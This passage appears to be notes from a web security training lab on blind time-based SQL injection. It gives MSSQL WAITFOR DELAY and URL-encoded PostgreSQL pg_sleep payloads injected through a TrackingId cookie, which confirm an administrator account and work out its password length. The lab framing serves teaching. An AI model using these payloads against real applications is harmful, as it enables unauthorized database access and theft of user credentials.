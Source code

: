 - The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time:

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

>[!Note]
>There are various ways to trigger time delays within SQL queries, and different techniques apply on different types of database. For more details, see the SQL injection cheat sheet.

>[!Example]
>The solution of the lab

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verify that the application takes 10 seconds to respond.
    
3. Now change it to:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
    
    Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.
    
4. Now change it to:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Verify that the condition is true, confirming that there is a user called `administrator`.
    
5. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    This condition should be true, confirming that the password is greater than 1 character in length.
    
6. Send a series of follow-up values to test different password lengths. Send:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    Then send:
    
    `TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
    
    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), you have determined the length of the password, which is in fact 20 characters long.
    